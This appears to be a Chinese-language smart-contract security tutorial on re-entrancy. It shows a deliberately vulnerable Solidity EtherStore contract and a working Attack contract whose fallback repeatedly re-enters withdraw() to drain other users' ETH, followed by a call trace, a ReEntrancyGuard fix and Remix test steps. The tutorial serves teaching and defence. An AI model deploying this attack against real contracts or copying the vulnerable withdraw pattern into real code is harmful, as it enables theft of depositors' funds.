


# 66.Re-Entrancy
## 漏洞
重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如fallback函数）循环调用合约，将合约中资产转走或铸造大量代币。
重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。当在攻击合约中的fallback()或receive()函数中重新调用了目标合约的withdraw()函数
假设合约A调用合约B。
重入攻击漏洞允许B在A完成执行之前回调A。
## 银行合约例子
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract EtherStore {
    //mapping类型的变量balances，它将用户地址映射到其在合约中的以太余额。
    mapping(address => uint) public balances;

    //deposit的函数，它允许用户将以太存入合约。
    //使用msg.sender来确定调用者的地址，并将msg.value中的以太数量添加到该地址的余额中。
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    /*
    withdraw的函数，它允许用户从合约中提取他们的以太余额。
    它首先检查调用者的余额是否大于零，如果不是，则函数会抛出异常。
    然后它使用msg.sender.call来将以太发送回调用者的地址。
    如果发送失败，则函数会抛出异常。
    最后，它将调用者的余额设置为零，以确保他们无法多次提取相同的余额。
    */
    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // getBalance的帮助函数，它允许用户检查合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 攻击合约
EtherStore是一个合约，您可以存入和取出ETH。该合约容易受到可重入攻击的威胁。让我们来看看为什么。

1. 部署EtherStore
2. 从账户1（Alice）和账户2（Bob）各存入1个以太到EtherStore
3. 部署攻击合约并指定EtherStore的地址
4. 使用账户3（Eve）调用Attack.attack函数并发送1个以太。
   你将会得到3个以太（其中2个以太是从Alice和Bob那里被盗取的，另外1个以太是从这个合约发送的）。

发生了什么？
攻击者能够在EtherStore.withdraw执行完成之前多次调用EtherStore.withdraw。

以下是函数的调用方式：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack.fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)

```solidity
contract Attack {
    EtherStore public etherStore;

    //构造函数，接受一个EtherStore合约的地址作为参数，并将其存储在etherStore变量中。
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // 当EtherStore向此合约发送以太时，将调用Fallback函数。
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }
    
    //攻击函数，要求发送至少1 ether的以太。
    //将1 ether的以太存入etherStore合约中，然后立即调用etherStore的withdraw()函数以取回所有以太。
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // 辅助函数，用来检查此合同的余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
* 确保在调用外部合约之前发生所有状态更改
* 使用函数修饰符防止重入
以下是一个防止重入的示例保护
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
## remix验证
部署合约EtherStore，调用deposit()函数转入1ETH，显示余额为1ETH。

部署合约Attack，输入合约EtherStore的地址，然后调用attack（）函数并转入1ETH，会进行重入攻击，显示余额为2ETH。

